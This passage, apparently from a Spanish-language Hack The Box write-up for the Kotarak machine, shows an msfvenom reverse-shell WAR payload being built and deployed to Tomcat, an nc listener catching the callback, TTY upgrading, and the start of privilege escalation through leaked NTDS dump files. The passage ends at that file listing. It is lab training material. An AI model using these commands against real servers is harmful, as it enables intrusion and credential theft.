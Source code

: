 Con la herramienta Msfvenom vamos a crear un payload `.war` para subir al CMS de Tomcat.
```bash
 msfvenom -p java/shell_reverse_tcp lhost=10.10.14.12 lport=443 -f war -o pwn.war
```
Una vez creado lo subimos a la CMS y apuntamos a la ruta del archivo, para que se ejecute y recibamos la conexion Reversa.
```bash
http://10.10.10.55:8080/pwn/

# nc -vlnp 443                                                                                                                                                                                               1 ⚙
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.55] 44244
whoami
tomcat
```
Procedemos a hacer un tratamioento de la tty
```bash
python -c 'import pty;pty.spawn("/bin/bash")';
tomcat@kotarak-dmz:/$ ^Z
zsh: suspended  nc -vlnp 443
                                                                                                                                                                                                                   
┌──(root💀kali)-[/home/Escritorio/HTB]
└─# stty raw -echo; fg                                                                                                                                                                                   148 ⨯ 2 ⚙
[1]  - continued  nc -vlnp 443
                              reset
reset: unknown terminal type unknown
Terminal type? xterm

tomcat@kotarak-dmz:/$ export TERM=xterm
tomcat@kotarak-dmz:/$ export SHELL=bash
tomcat@kotarak-dmz:/$ stty rows 50 columns 212
```

# Escaladad de privilegios ~ Uso de Impacket-secretsdump

Nos dirigimos a la ruta `/home/tomcat`
```bash
tomcat@kotarak-dmz:/home/tomcat$ ls -lR
.:
total 4
drwxr-xr-x 3 tomcat tomcat 4096 Jul 21  2017 to_archive

./to_archive:
total 4
drwxr-xr-x 2 tomcat tomcat 4096 Jul 21  2017 pentest_data

./to_archive/pentest_data:
total 28304
-rw-r--r-- 1 tomcat tomcat 16793600 Jul 21 " 2017 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit "
-rw-r--r-- 1 tomcat tomcat 12189696 Jul 21 " 2017 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin "
```
